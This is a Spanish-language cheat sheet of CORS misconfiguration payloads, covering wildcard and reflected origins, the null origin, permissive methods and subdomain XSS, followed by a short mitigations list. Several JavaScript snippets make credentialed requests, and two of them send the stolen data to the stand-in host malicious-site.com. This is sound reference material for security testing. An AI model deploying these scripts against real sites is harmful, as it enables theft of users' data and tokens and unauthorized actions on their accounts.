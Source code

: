 # 🌎 Real World Payloads

## CORS (Cross-Origin Resource Sharing)

### Configuración Incorrecta de CORS

#### Vulnerabilidad: `Access-Control-Allow-Origin: *`

**Ejemplo de Solicitud**

```http
GET /sensitive-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-site.com
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Content-Type: application/json

{
  "user": "admin",
  "email": "admin@vulnerable.com",
  "token": "abc123"
}
```

**Explotación**

Un atacante puede crear un script para exfiltrar datos sensibles:

```javascript
fetch('https://vulnerable-website.com/sensitive-data', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.text())
  .then(data => {
    fetch('https://malicious-site.com/log', {
      method: 'POST',
      body: data
    });
  });
```

***

#### Vulnerabilidad: Reflejo Dinámico del Encabezado `Origin`

**Ejemplo de Solicitud**

```http
GET /api/private-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-site.com
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-site.com
Access-Control-Allow-Credentials: true
Content-Type: application/json

{
  "data": "Sensitive information"
}
```

**Explotación**

```javascript
fetch('https://vulnerable-website.com/api/private-data', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.json())
  .then(data => {
    console.log(data);
  });
```

***

### Uso del Valor `null` en `Origin`

**Ejemplo de Solicitud**

```http
GET /internal-data HTTP/1.1
Host: vulnerable-website.com
Origin: null
```

**Respuesta esperada**

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json

{
  "internal": "This should not be accessible."
}
```

**Explotación**

Solicitudes realizadas desde documentos locales pueden aprovechar este comportamiento.

```javascript
fetch('https://vulnerable-website.com/internal-data', {
  method: 'GET',
  credentials: 'include'
})
  .then(response => response.json())
  .then(data => {
    alert(data.internal);
  });
```

***

### Métodos y Encabezados Excesivamente Permisivos

**Ejemplo de Configuración**

```http
Access-Control-Allow-Methods: GET, POST, PUT, DELETE
Access-Control-Allow-Headers: Authorization, X-Custom-Header
```

**Explotación**

Un atacante puede realizar solicitudes no intencionadas con métodos como `DELETE`:

```javascript
fetch('https://vulnerable-website.com/resource/123', {
  method: 'DELETE',
  credentials: 'include'
})
  .then(response => {
    if (response.ok) {
      console.log('Resource deleted!');
    }
  });
```

***

### Ataques Basados en Subdominios

**Ejemplo: Subdominio con XSS**

1.  Subdominio vulnerable (`sub.vulnerable-website.com`) tiene una XSS:

    ```javascript
    <script>
    fetch('https://vulnerable-website.com/api/keys', {
      method: 'GET',
      credentials: 'include'
    })
      .then(response => response.json())
      .then(data => {
        fetch('https://malicious-site.com/log', {
          method: 'POST',
          body: JSON.stringify(data)
        });
      });
    </script>
    ```
2.  Subdominio está configurado como origen confiable:

    ```http
    Access-Control-Allow-Origin: https://sub.vulnerable-website.com
    Access-Control-Allow-Credentials: true
    ```

**Resultado**

El atacante exfiltra datos sensibles desde el dominio principal utilizando el subdominio vulnerable.

***

### Mitigaciones

1.  **Configurar Orígenes Específicos:**

    ```http
    Access-Control-Allow-Origin: https://trusted-site.com
    ```
2. **Evitar Reflejar el `Origin`:**
   * Usar listas blancas estrictas de dominios permitidos.
3.  **Restringir Métodos y Encabezados:**

    ```http
    Access-Control-Allow-Methods: GET, POST
    Access-Control-Allow-Headers: Content-Type
    ```
4. **Usar `Access-Control-Allow-Credentials` con Precaución:**
   * Solo habilitarlo si es estrictamente necesario y con una lista específica de orígenes confiables.
5. **Auditorías Periódicas:**
   * Revisar las políticas de CORS en busca de configuraciones inseguras.

***
